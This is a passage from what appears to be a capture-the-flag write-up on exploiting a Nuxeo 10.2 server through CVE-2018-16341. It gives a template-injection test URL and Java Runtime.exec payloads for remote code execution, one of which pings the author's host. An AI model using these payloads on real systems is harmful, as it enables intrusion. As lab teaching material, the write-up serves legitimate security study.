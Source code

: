 ### Nuxeo Vulnerability

#### Background

The bottom of the login page says Nuxeo is running version 10.2. Some
Googling for "Nuxeo 10 exploit" leads to [this
repo](https://github.com/mpgn/CVE-2018-16341) about CVE-2018-16341,
which the author calls "Nuxeo Authentication Bypass Remote Code
Execution".

There is a server-side template injection in the Java application, which
means if I can include a string like `${-7+7}` somewhere that it will be
parsed as code, then I can get Java running and therefore get remote
code execution.

#### Testing

To test for this, the repo suggests visiting the url:



    http://127.0.0.1:8080/nuxeo/login.jsp/pwn${-7+7}..md"



There's been code execution if `${-7+7}` is replaced with a `0`.

Updating the URI to reach the the login page on Hancliffe works:

![](/img/image-20220127144904131.png)

#### Manual POC

The page also suggests this payload for RCE:



    ${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec("touch /tmp/pwn.txt", null).waitFor()}



This is abusing Java to `touch` a file. I'll modify the payload ping my
host which I can watch for with `tcpdump`:



    ${"".getClass().forName("java.lang.Runtime").getMethod("getRuntime", null).invoke(null, null).exec("ping 10.10.14.6", null).waitFor()}



When I update the url in Firefox, I see pings at my listening `tcpdump`:
